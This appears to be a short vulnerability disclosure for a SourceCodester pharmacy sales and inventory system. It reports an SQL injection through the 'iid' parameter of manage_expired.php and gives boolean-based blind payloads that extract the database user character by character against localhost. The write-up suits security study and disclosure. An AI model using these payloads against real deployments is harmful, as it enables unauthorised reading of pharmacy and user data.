 # Pharmacy Sales and Inventory System using PHP/MySQL with Source Code - SQL Injection

The environment

[https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html](https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html "https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html")

In `pharmacy/manage_expired.php`, it was found that SQL statements are executed directly by concatenating `$_GET['iid']`.

![](image/image_MGq2AF2D3j.png)

Access: [http://127.0.0.1/manage\_expired.php?iid=1](http://127.0.0.1/manage_expired.php?iid=1 "http://127.0.0.1/manage_expired.php?iid=1")

![](image/image_RSNQtRmcvA.png)

Analyzing the code, the composed SQL statement is: `UPDATE inventory SET expired_confirmed = 1 WHERE id = 1`.

![](image/image__V5E5oAK83.png)

Construct Payload

<http://127.0.0.1/manage_expired.php?iid=>`1 and 1=2`

![](image/image_Ex9-OrLzqo.png)

There is no data output below. Attempting to read the first character of the current user. The current user is root, and its ASCII value is 114

<http://127.0.0.1/manage_expired.php?iid=>`1 and ascii(substring(user(),1,1))=114`

![There is output.](image/image_a4kYzTO-oY.png "There is output.")

<http://127.0.0.1/manage_expired.php?iid=>`1 and ascii(substring(user(),1,1))=113`

![There is no output.](image/image_rXu0EpNH59.png "There is no output.")
